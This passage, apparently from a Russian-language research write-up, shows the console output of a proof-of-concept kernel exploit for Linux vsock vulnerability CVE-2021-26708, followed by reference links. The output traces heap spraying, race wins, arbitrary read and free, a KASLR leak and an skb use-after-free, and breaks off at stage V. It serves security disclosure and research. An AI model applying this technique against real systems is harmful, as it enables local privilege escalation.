 Вывод эксплойта, который демонстрирует всю процедуру эксплуатации уязвимости [CVE-2021-26708][0]:

```
[a13x@localhost ~]$ ./vsock_pwn

=================================================
==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
=================================================

[+] begin as: uid=1000, euid=1000
[+] we have 2 CPUs for racing
[+] getting ready...
[+] remove old files for ftok()
[+] spray_data at 0x7f0d9111d000
[+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
[+] fault_handler for uffd 38 is ready

[+] stage I: collect good msg_msg locations
[+] go racing, show wins: 
	save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
	save msg_msg ffff9125c25a4640 in msq 12 in slot 1
	save msg_msg ffff9125c25a4780 in msq 22 in slot 2
	save msg_msg ffff9125c3668a40 in msq 78 in slot 3

[+] stage II: arbitrary free msg_msg using corrupted msg_msg
	kaddr for arb free: ffff9125c25a4d00
	kaddr for arb read: ffff9125c2035300
[+] adapt the msg_msg spraying payload:
	msg_ptr 0x7f0d91120fd8
	m_type 1337 at 0x7f0d91120fe8
	m_ts 6096 at 0x7f0d91120ff0
	msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
[+] go racing, show wins: 

[+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
[+] msgrcv returned 6096 bytes
[+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
[+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
[+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
[+] Calculated kaslr offset: 2a000000

[+] stage IV: search sprayed skb near sk_memcg...
[+] checking possible skb location: ffff9125c42fa000
[+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
	kaddr for arb free: ffff9125c25a4640
	kaddr for arb read: ffff9125c42fa030
[+] adapt the msg_msg spraying payload:
	msg_ptr 0x7f0d91120fd8
	m_type 1337 at 0x7f0d91120fe8
	m_ts 6096 at 0x7f0d91120ff0
	msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
[+] go racing, show wins: 0 0 20 15 42 11 
[+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
[+] msgrcv returned 6096 bytes
[+] found a real skb

[+] stage V: try to do UAF on skb at ffff9125c42fa000
[+] skb payload:
	start at 0x7f0d91120004
	skb_shared_info at 0x7f0d91120ec4
	tx_flags 0x8
	destructor_arg 0xffff9125c42fa100
	callback 0xffffffffab64f6d4
	desc 0xffff9125c3fd6e53
```

[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: https://web.archive.org/web/20210308095728/http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://www.grsecurity.net/how_autoslab_changes_the_memory_unsafety_game
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers